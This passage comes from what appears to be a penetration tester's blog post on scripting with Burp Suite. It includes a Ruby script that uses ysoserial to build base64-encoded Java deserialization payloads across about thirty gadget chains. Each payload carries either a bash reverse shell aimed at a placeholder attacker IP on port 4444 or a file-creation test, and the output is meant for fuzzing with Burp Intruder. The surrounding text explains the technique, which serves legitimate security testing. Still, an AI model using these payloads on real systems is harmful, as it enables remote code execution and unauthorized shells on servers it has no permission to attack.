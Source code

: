 This is a very simple example, but this code uses Ruby's Faraday gem to make a request through the Burp proxy.  This will allow requests generated from this script to to appear in the Burp proxy.  If I am writing a proof of concept exploit script, for example, this would allow me to observe the requests in Burp and compare them with requests that I have successfully made against the server.

## Generating Intruder Payloads with ysoserial and Ruby

Ysoserial is a powerful tool that is used to create gadget chains to exploit Deserialization vulnerabilities in Java.  Basically, this will create a string of some kind that contains malicious code that can result in arbitrary code execution within a Java application.  

While attempting to exploit a deserialization vulnerability in a Java application, I wrote the following script to generate a text file of ysoserial payloads encoded in base64.

In addition to the ysoserial payload, this also uses loops through 3 different commands to include in each of the payloads.  The three payloads tested 2 variations of a bash reverse shell that connects to a netcat listener, and one test for a command injection by seeing if I could create a file using the `touch` command.

After generating the payload from ysoserial it encodes the output of the ysoserial command in base64, which is commonly used by Java web applications to receive a serialized object, and saves the resulting string to a new line of the text file.

```ruby
require 'base64'
cmd = "bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1"
cmd2 = "0<&196;exec 196<>/dev/tcp/<attacker_ip>/4444; sh <&196 >&196 2>&196"
cmd3 = 'touch HAAXXXED.txt'
payloads = %w(BeanShell1 C3P0 Clojure CommonsBeanutils1 CommonsCollections1
   CommonsCollections2 CommonsCollections3 CommonsCollections4
   CommonsCollections5 CommonsCollections6  FileUpload1 Groovy1 Hibernate1
   Hibernate2 FileUpload1 JBossInterceptors1 JRMPClient JRMPListener JSON1
   JavassistWeld1 Jdk7u21 Jython1 MozillaRhino1 Myfaces1 Myfaces2 ROME
   Spring1 Spring2 URLDNS Wicket1)
[cmd, cmd2, cmd3].each do |cmd|
  payloads.each do |payload|
    system("java -jar ysoserial.jar #{payload} \"#{cmd}\" >> temp_file.jar")
    content = File.open('temp_file.jar', 'rb')
    next unless content
    encoded_payload = Base64.strict_encode64(content)
    File.write("payloads.txt", encoded_payload, mode: "a")
    File.write("payloads.txt", "\n", mode: "a")
    `rm temp_file.jar`
  end
end
```

I was able to use this to determine if the application was vulnerable to one of the gadget chains within ysoserial. Once this text file was generated, I was able to use it as an intruder payload, effectively using Burp to fuzz the application in a targeted, and controlled way.

## Burp

Burp is a fantastic tool to use for analyzing a web application for vulnerabilities.  You can also use scripts to enhance Burp's utility when analyzing a web application for vulnerabilities.  
